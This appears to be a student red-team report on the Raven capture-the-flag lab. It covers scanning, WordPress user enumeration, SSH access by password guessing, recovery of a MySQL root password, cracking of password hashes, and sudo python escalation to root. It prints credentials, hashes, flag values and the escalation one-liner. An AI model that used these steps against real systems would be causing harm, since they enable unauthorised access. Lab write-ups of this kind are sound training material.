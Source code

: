 # offensive
final project offensive report
# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
_TODO: Fill out the information below._

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap ... nmap -sC -sV --reason -p 22,80,139,445 192.168.1.110
  
```
https://docs.google.com/document/d/1xZ8YLNCmJalc-poug1nDn4ppX0WbqnT4Pzn2QXe3ib0/edit?usp=sharing
This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 SSH is open
  - port 80 HTTP is running (apache 2.4.10)
  - port 111 runing rpcbind
  - ports 139 and 445 have netbios-ssn/microsoft-ds 

The following vulnerabilities were identified on each target:
- Target 1
  - rpcbind - CVE-2017-8779
  - apache 2.4.10 -CVE-2017-7668, CVE-2017-3169




### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`:flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - Using inspector tool on the 192.168.1.110/service.html page. 
      -
  - `flag2.txt`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - Used "Wpscan --url http://raven.local/wordpress --enumerate u" to discover usernames for the website, then guessed at the password for user michael in order to SSH into webserver. Once in, flag2 was under var/www- `flag2.txt`:
    - **Exploit Used**
      - flag3{afc01ab56b50591e7dccf93122770cd2}
      - Cat out the wp-config.php file to find the mysql password: R@v3nSecurity.
      - Use the root:R@v3nSecurity to access the mysql db: mysql -u root -p
      - use wordpress > select * from wp_users: provides the flag.
    - **Exploit Used**
      - flag4{715dea6c055b9fe3337544932f2941ce}
      - ran john the ripper against the hashed versions of Michael and Steven's passwords to determine steven's. michael:$P$$8jRvZQ.VQcGZ1DeiKToCQd.cPw5XCe0
steven:$P$8kJVD9jsxx/loJoqNsURgHiaB23j7W/

      - Check sudo privledges with sudo -l. we have ability to use python
      - Using GTFObin and other resources for privledge escalation, sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’ works for us.
      - once operating as root, find flag4.txt
   
